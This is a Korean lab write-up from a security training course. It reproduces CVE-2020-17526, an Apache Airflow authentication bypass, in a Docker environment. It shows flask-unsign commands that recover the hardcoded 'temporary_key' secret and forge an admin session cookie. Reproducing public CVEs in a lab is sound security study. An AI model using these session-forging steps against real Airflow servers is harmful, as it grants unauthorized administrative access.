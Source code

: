 # Apache Airflow Authentication Bypass (CVE-2020-17526)

화이트햇스쿨 3기 32반 김나희

## 1. 요약
- Apache Airflow는 오픈소스 워크플로우 관리 플랫폼으로, 언제 어떤 작업을 실행할지 미리 정해 자동으로 돌려주는 프로그램이다. 기본적으로 인증 기능이 비활성화되어 있지만, 관리자가 webserver.authenticate=True로 활성화할 수 있다.
- Airflow 1.10.13 이전 버전에서는 세션 정보를 서명하는 데 사용되는 비밀 키가 temporary_key 라는 고정된 값으로 설정되어 있었다. 따라서 공격자가 이를 악용해 임의의 사용자로 가장하여 인증을 우회할 수 있는 취약점이 존재했다.


## 2. 환경 구성
- git clone https://github.com/umsienrt/kr-vulhub.git
- cd kr-vulhub/CVE-2020-17526
- docker compose run airflow-init
- docker compose up -d
- Flask Unsign 설치 → 세션 키 해독 용도


## 3. PoC
![img1](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img1.png?raw=true)
- http://your-ip:8080 으로 접속하면 로그인 페이지가 나온다.


![img2](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img2.png?raw=true)
- curl -v http://localhost:8080/admin/airflow/login
- Set-Cookie→session에서 세션 키 정보를 알 수 있다.


![img3](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img3.png?raw=true)
- 개발자 도구 → Application → Cookies → http://127.0.0.1:8080 에서 전체 세션 키 정보를 확인할 수 있다.


![img4](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img4.png?raw=true)
- flask-unsign -u -c  세션 키 값
- flask-unsign을 이용해서 세션 키를 해독하면 ‘temporary key’ 가 나온다.


![img5](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img5.png?raw=true)
- flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}”
- user_id가 1인 새 세션을 생성한다.


![img6](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img6.png?raw=true)
- 개발자 도구에서 session의 value값에 앞서 새롭게 생성된 세션 값을 삽입한다.


## 결과
![img7](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img7.png?raw=true)


